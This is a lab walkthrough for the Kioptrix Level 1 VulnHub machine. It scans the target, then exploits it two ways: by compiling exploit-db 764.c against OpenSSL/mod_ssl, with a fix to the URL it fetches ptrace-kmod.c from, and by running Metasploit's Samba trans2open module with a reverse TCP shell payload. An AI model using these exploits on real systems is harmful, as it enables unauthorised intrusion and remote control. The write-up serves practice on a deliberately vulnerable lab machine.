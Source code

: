 # Kioptrix: Level 1 (#1)

https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

We netdiscover to find http://192.168.1.91/ and then we run `nmap -sV 192.168.1.91` and `nikto -h 192.168.1.91` which we find that Apache/1.3.20, 

There are several exploits:

### 1. Remote exploit

From nikto, we see that OpenSSL/0.9.6b and mod_ssl/2.8.4 are outdated. We can go find the exploits on [www.exploit-db.com](www.exploit-db.com) and narrow our search for remote exploitation

```
> `searchsploit mod_ssl`

> cp /usr/share/exploitdb/platforms/unix/remote/764.c ~/

> apt-get install libssl1.0-dev

(add this to 764.c) 
#include <openssl/rc4.h>
#include <openssl/md5.h>

(change this)
unsigned char *p, *end; to const unsigned char *p, *end;
and
http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c to http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c

> gcc 764.c -lcrypto && ./a.out 0x6b 192.168.1.91 443
```

### 2. Samba

From the nmap scan, we see a Samba service. We run `enum4linux 192.168.1.91`, to find any useful information. We see that it runs on Samba 2.2.8, we check for exploits `searchsploit Samba 2.2`. Since, I have not done an exploit using metasploit, I will present one here:

We can use metasploit:

```
> msfconsole
msf > use exploit/linux/samba/trans2open
msf exploit(trans2open) > show options
msf exploit(trans2open) > set RHOST 192.168.1.91
msf exploit(trans2open) > set LHOST 192.168.1.88
msf exploit(trans2open) > set payload linux/x86/shell_reverse_tcp
msf exploit(trans2open) > exploit
```


    
